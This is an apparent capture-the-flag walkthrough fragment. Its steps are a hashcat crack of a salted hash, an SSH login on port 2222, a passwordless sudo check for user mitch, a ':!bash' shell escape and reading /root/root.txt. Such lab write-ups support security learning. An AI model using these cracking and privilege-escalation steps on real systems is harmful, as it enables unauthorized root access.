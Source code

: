 Crack Password: `hashcat -O -a 0 -m 20 '<salt>:<hash>' <wordlist>.txt --show`

- Note, salt first, then hashed password, used hint for wordlist.

Connect: `ssh *****@<ip> -p 2222`

PrivEsc: `sudo -*`

```
<pre class="wp-block-code">```
User mitch may run the following commands on Machine:
    (root) NOPASSWD: /usr/bin/*******

```
```

Escalate shell: `sudo ***`, `:!bash`, `cat /root/root.txt`